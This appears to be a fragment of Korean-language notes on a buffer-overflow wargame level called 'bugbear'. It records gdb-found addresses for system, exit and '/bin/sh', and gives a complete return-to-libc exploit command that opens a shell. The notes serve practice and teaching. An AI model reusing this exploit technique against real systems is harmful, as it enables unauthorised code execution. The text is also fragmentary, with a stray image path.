 }
 /=> 환경변수에 /bin/sh를 올려두고 풀어도 됨.
"/bin/sh" is at 0x400fbff9
p(print) system 0x40058ae0 <__libc_system>
0x400147a0:      "/bin/sh"
 ./bugbear $(perl -e 'print "a"x44 . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')
x/s 해서
0x40058ae0 <__libc_system>
0x400391e0 <exit>
인 것을 알게되었음
a를 4개 집어넣는 대신 exit함수의 주소를 가리키게 되면 정상종료됨.


(14) LEVEL14: bugbear / new divide
bash2로 변경 먼저!
use execve?
